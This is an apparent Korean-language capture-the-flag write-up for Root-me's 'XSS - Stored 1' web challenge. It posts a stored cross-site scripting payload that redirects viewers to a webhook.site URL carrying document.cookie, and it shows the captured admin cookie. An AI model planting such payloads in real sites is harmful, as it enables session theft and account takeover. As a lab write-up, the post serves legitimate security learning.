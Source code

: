 ```yaml
---
title : "XSS - Stored 1"
excerpt : "Root-me.org Web-Client XSS - Stored 1"
toc: true
toc_sticky: true
categories :
  - Web-Client
tags :
  - XSS
---
```


# XSS - Stored 1
```
Author
g0uZ,  3 March 2012

Statement
Steal the administrator session cookie and use it to validate this chall.
```
<a href="https://webhook.site/" target="_blank">https://webhook.site/</a>을 이용하면 됨.

```
title : 아무거나 입력
Message : <script>location.href="webhook에서 받은 url?"+document.cookie;</script>
```
이렇게 보내주고 바로 확인을 했더니 안나오고 문제를 다시 보려해도 보낸 메시지 때문에 webhook으로 가버림.  
다음날 확인해보니 쿠키값이 전송되었음.  
```
?ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6
```
